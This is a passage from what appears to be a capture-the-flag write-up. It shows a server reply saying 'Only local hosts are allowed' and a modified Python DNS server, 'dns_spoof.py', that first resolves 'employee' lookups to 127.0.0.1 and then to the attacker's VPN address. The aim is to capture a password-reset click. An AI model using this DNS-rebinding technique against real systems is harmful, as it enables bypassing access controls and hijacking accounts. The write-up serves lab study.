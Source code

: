 ```php
HTTP/1.1 200 OK
...[snip]...
<body>
<div class="alert alert-danger alert-dismissible fade show" role="alert">Only local hosts are allowed.<button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button></div>
        <div class="limiter">
...[snip]...
```

Modifying this [python dns server](https://gist.githubusercontent.com/pklaus/b5a7876d4d2cf7271873/raw/cb089513b185f4128d956eef6e0fb9f5fd583e41/ddnsserver.py), to send the first lookup request containing "employee" to `127.0.0.1` and the next one to our vpn ip, we try the same from above again, but this time listening on port 80 to possibly capture david clicking on the password reset.

`dns_spoof.py`
```py
#!/usr/bin/env python
# coding=utf-8

import argparse
import datetime
import sys
import time
import threading
import traceback
import socketserver
import struct
try:
    from dnslib import *
except ImportError:
    print("Missing dependency dnslib: <https://pypi.python.org/pypi/dnslib>. Please install it with `pip`.")
    sys.exit(2)

a = 1
class DomainName(str):
    def __getattr__(self, item):
        return DomainName(item + '.' + self)

def dns_response(data):
    request = DNSRecord.parse(data)

    print(request)

    reply = DNSRecord(DNSHeader(id=request.header.id, qr=1, aa=1, ra=1), q=request.q)

    qname = request.q.qname
    qn = str(qname)
    qtype = request.q.qtype
    qt = QTYPE[qtype]
    if qn != "":
        D = DomainName(qn)
    IP = '10.10.14.65'
    TTL = 600
    global a
    if "employee" in qn and a > 1:
        IP = '10.10.14.65'
        a += 1
    elif "employee" in qn:
        a += 1
        TTL = 10
        IP = '127.0.0.1'

```